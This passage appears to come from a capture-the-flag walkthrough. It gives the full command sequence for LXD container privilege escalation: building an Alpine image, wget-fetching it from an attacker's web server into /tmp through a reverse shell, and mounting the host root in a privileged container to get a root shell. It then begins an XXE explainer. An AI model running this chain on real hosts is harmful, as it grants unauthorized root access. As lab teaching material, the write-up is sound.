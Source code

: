 ```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```

I executed the build-alpine file and a ```tar.gz``` file was created. In my case I got two files, so I decided to proceed with the first one.

Next, I have launched python web server from the same directory:

```
python3 -m http.server 8000
```

After that I was ready to grab the file from my reverse shell. The usual location of my choice is ```/tmp/``` directory.

```
wget http://10.10.15.4:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

*Now back the article again. The following commands will import the image and create privileged container with it:*

```
lxc image import ./alpine*.tar.gz --alias myimage
lxc init myimage mycontainer -c security.privileged=true
```

*Next, we need to mount the /root into the image:*

```
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```

*Now let's interact with the container:*

```
lxc start mycontainer 
lxc exec mycontainer /bin/sh
```

The ```id``` command confirmed I have attained the root shell and grabbing the root flag was easy:

```
find / -name root.txt 2>/dev/null
```

This example is now concluded.

## External Entities (XXE or XEE) attacks

In 2017, XML External Entities (XXE) attacks ranked fourth on the OWASP Top 10 list for web application vulnerabilities.

But what exactly is XML? XML, or Extensible Markup Language, is a way of structuring data so that both humans and machines can read it. Think of it like HTML, but for data. XML includes something called "entities," which act as placeholders for data. For example, instead of using the characters ```<``` and ```>```, which are reserved for tags, you’d write them as ```&lt;``` and ```&gt;```.
